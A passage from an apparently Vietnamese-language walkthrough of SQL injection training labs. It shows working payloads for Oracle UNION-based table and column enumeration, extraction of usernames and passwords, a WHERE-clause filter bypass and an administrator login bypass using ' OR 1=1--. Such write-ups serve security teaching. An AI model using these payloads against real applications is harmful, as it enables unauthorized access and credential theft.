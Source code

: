 ```
> ![](28.png)
- Sau khi xác định được số cột:
``` ' UNION SELECT null, null from dual--```
![](29.png)
- Mình thử truy vấn all table thì có rất nhiều bảng hiện ra:
``` ' UNION SELECT TABLE_NAME, NULL FROM ALL_TABLES--```
![](30.png)
![](31.png)
- Mình nghĩ table chứa account tên có thể giống như lab-07 nên đã thử tìm và ra được table ```USERS_XVKMBK```
- Tiếp tục
``` ' UNION SELECT COLUMN_NAME, null FROM all_tab_columns WHERE table_name = 'USERS_XVKMBK'-- ```
![](32.png)

```
' UNION SELECT PASSWORD_OTNMBH, USERNAME_QOPCOA FROM USERS_XVKMBK--
```
> ![](33.png)
- Đăng nhập để hoàn thành lab.
# Lab-09: Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
> This lab contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.
### Cách giải:
- Bài lab này yêu cầu hiển thị tất cả các sản phẩm trong bảng product.
- Và đề cũng cho mình luôn 1 câu truy vấn:
```SELECT * FROM products WHERE category = 'Gifts' AND released = 1```
- Và ở bài này mình sử dụng ```' OR 1=1--```
``` SELECT * FROM products WHERE category = ' OR 1=1--' AND released = 1```
![](34.png)
- Ngắn gọn hơn:``` ' OR 1=1--```
![](35.png)
# Lab-10: SQL injection vulnerability allowing login bypass
> This lab contains an SQL injection vulnerability in the login function.
To solve the lab, perform an SQL injection attack that logs in to the application as the administrator user.
### Cách giải:
- Để giải quyết lab này mình cần phải login với tư cách là người dùng administrator.
- Đầu tiên mình vào phần đăng nhập và thử username và pass bất kỳ thì không được.
- Tiếp theo mình thử đăng nhập bằng ```username: ' or 1 = 1 --``` và pass bất kỳ hoặc username bất kỳ và ```password: ' or 1 = 1 --``` thì lab được giải quyết 





















```